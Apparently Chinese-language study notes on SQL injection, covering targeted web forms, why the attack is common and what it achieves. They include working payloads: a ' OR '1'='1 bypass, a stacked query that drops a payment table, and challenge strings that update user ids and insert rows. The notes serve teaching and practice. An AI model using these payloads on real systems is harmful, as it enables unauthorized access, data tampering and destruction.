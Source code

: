 

## SQL注入injection

针对对象：

- contact form
- checkout form
- login form
- registration form



频繁的原因：

- 很直接
- 许多网站使用SQL数据库
- 有许多自动攻击的脚本



作用：

- 下载所有数据
- 成为数据库的管理员
- 篡改数据



### 使用`'`

```sql
-- 表格填写
Username: ' OR '1'='1

-- output
SELECT * FROM users WHERE username = '' OR '1'='1'	--相当于所有数据
```



```sql
-- 表格填写
Username: ''; DROP TABLE payment

-- output
SELECT * FROM users WHERE username = '';
DROP TABLE payment
```



```sql
SELECT *
FROM users
WHERE email = 'x' OR '1' = '1';	--判断条件永远正确


--挑战1
x'; UPDATE users SET id = 123 WHERE email_address = 'frank@dark.net

--挑战2
x'; UPDATE users SET id = 456 WHERE user_name = '%Alice%	--包含Alice字符

--挑战3
x'; INSERT INTO users ('email_address') VALUES ('me@me.com'); --
```
